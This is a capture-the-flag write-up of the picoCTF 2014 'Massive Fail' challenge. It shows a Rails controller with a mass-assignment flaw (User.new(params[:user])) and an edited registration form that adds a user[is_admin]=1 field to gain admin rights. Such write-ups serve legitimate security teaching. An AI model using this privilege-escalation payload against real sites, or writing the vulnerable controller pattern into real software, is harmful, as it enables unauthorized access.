 ### Solved by barrebas

Massive Fail is a 120 point challenge. 

`Fed up with their recent PHP related issues, Daedalus Corp. has switched their website to run on Ruby on Rails (version 3.1.0) instead. Their brand new registration page does not seem like much of an improvement though... [Source].`

We're given the source to a Ruby on Rails website. We need to register as an admin to get the flag. The interesting bit is in `db/schema.rb` and `app/controller/user_controller.rb`.

```
ActiveRecord::Schema.define(:version => 20141008175655) do

  create_table "users", :force => true do |t|
    t.string   "username"
    t.string   "password"
    t.string   "name"
    t.boolean  "is_admin"
    t.datetime "created_at"
    t.datetime "updated_at"
  end

end

class UserController < ApplicationController
  def register     
  end

  def create
    # User.new creates a new user according to ALL the parameters
    @new_user = User.new(params[:user])
    @new_user.save
  end
end
```

The application registers the user using *ALL* supplied parameters. So let's supply a few more, shall we? Download the registration page and "tweak" it a bit:

```html
<form accept-charset="UTF-8" action="http://web2014.picoctf.com:5000/user/create" method="post"><div style="margin:0;padding:0;display:inline"><input name="utf8" type="hidden" value="&#x2713;" /><input name="authenticity_token" type="hidden" value="+yYhUookKb5lZuf2bU97ccd3TWYizvaxFYpWfR5H/b8=" /></div>
  <div class="control-group">
    <label class="control-label" for="user_name">Name</label>:
    <div class="controls">
      <input id="user_name" name="user[name]" size="30" type="text" />
    </div>
  </div>

  <div class="control-group">
    <label class="control-label" for="user_username">Username</label>:
    <div class="controls">
      <input id="user_username" name="user[username]" size="30" type="text" />
    </div>
  </div>

  <div class="control-group">
    <label class="control-label" for="user_password">Password</label>:
    <div class="controls">
      <input id="user_password" name="user[password]" size="30" type="password" />
    </div>
  </div>
    <div class="control-group">
    <label class="control-label" for="user_is_admin">is_admin</label>:
    <div class="controls">
      <input id="user_password" name="user[is_admin]" size="30" type="text" value="1" />
    </div>
  </div>
```

By adding the `user[is_admin]` parameter, the register page thinks we are admin and gives us the flag:

![](/images/2014/pico/massive-fail/daedelus.png)
